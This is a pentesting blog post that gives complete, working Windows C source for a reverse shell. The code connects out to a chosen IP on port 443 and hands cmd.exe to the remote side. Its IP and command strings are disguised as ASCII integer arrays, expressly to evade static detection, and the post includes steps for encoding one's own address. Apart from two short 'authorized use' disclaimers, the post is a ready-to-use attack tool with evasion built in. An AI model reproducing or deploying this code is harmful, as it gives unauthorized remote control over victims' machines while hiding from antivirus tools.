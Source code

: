 ```yaml
---
layout: post
category: pentesting
---
```


# Creating an Obfuscated Reverse Shell in C with Dynamic String Building

In this post, we'll explore how to create an obfuscated reverse shell in C for Windows. To evade detection, we'll use dynamic string construction techniques instead of traditional static strings, which are easily detected. This approach helps keep critical components hidden from static analysis, making it a useful technique for Capture The Flag (CTF) challenges and pentesting environments.

**Note**: This technique should only be used in authorized, controlled environments.

## Code Walkthrough

Below is the complete code for an obfuscated reverse shell in C. We’ve eliminated common patterns by dynamically constructing strings in runtime, avoiding typical detection mechanisms. Additionally, we'll show how to encode your own IP address and command.

### How to Encode Your IP Address and Command

To set your own IP address and command, we’ll convert each character of the IP address and command string into its ASCII integer value. These values will then be stored in an array, allowing us to dynamically reconstruct the IP and command at runtime.

**Example:** If your IP address is `192.168.0.101` and your command is `cmd.exe`, here’s how you can encode them:

1. **Convert IP Address**: Each character of the IP should be converted to its ASCII decimal representation. For `192.168.0.101`, you would get:
    - IP Address as ASCII values: `[49, 57, 50, 46, 49, 54, 56, 46, 48, 46, 49, 48, 49]`

2. **Convert Command**: Similarly, convert each character of the command `cmd.exe`:
    - Command as ASCII values: `[99, 109, 100, 46, 101, 120, 101]`

Once you have these arrays, you can replace the `ip_pattern` and `cmd_pattern` in the code below.

## Complete Code with Customizable IP and Command

```c
#define _WINSOCK_DEPRECATED_NO_WARNINGS
#include <stdio.h>
#include <WinSock2.h>
#include <Windows.h>
#include <WS2tcpip.h>
#pragma comment(lib, "Ws2_32.lib")

// Function to dynamically build critical strings
void build_string(char* str, const int* pattern, size_t len) {
    for (size_t i = 0; i < len; i++) {
        str[i] = (char)pattern[i];
    }
    str[len] = '\0';  // Add null terminator
}

int main() {
    SOCKET shell;
    struct sockaddr_in shell_addr;
    WSADATA wsa;
    STARTUPINFO si;
    PROCESS_INFORMATION pi;
    char RecvServer[512];
    int connection;

    // Dynamically building the IP address and command
    char ip_addr[16];
    char cmd[8];

    // Replace these patterns with your own IP and command patterns
    // Example for IP "192.168.37.134" and command "cmd.exe"
    int ip_pattern[] = { 49, 57, 50, 46, 49, 54, 56, 46, 51, 55, 46, 49, 51, 52 };
    int cmd_pattern[] = { 99, 109, 100, 46, 101, 120, 101 };

    // Build the IP and command strings at runtime
    build_string(ip_addr, ip_pattern, sizeof(ip_pattern) / sizeof(int));
    build_string(cmd, cmd_pattern, sizeof(cmd_pattern) / sizeof(int));

    int port = 443;

    // Initialize Winsock
    if (WSAStartup(MAKEWORD(2, 2), &wsa) != 0) {
        return 1;
    }

    shell = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);

    // Configure server address structure
    shell_addr.sin_port = htons(port);
    shell_addr.sin_family = AF_INET;
    shell_addr.sin_addr.s_addr = inet_addr(ip_addr);

    // Attempt connection
    connection = WSAConnect(shell, (SOCKADDR*)&shell_addr, sizeof(shell_addr), NULL, NULL, NULL, NULL);
    if (connection == SOCKET_ERROR) {
        return 1;
    } else {
        recv(shell, RecvServer, sizeof(RecvServer), 0);

        // Set up environment for command execution
        memset(&si, 0, sizeof(si));
        si.cb = sizeof(si);
        si.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
        si.hStdInput = si.hStdOutput = si.hStdError = (HANDLE)shell;

        // Execute dynamically built command
        if (!CreateProcessA(NULL, cmd, NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi)) {
            return 1;
        }

        // Wait indefinitely, keeping the session open
        WaitForSingleObject(pi.hProcess, INFINITE);
        CloseHandle(pi.hProcess);
        CloseHandle(pi.hThread);
        memset(RecvServer, 0, sizeof(RecvServer));
    }
}
```

## Explanation of Key Techniques

1. **Dynamic String Building**: By constructing the IP and command at runtime from ASCII integer values, we avoid static strings in the code, which makes it harder for static analysis tools to detect.
   
2. **Using Patterns for Custom IP and Command**: You can easily replace `ip_pattern` and `cmd_pattern` with your own ASCII values for different IPs and commands.

3. **Indefinite Session Hold**: The `WaitForSingleObject` function waits for the shell session to remain open indefinitely, allowing full control over the session.

This code structure provides an effective way to obfuscate critical strings and can be extended for further customization. Be sure to use these techniques responsibly and only in authorized environments!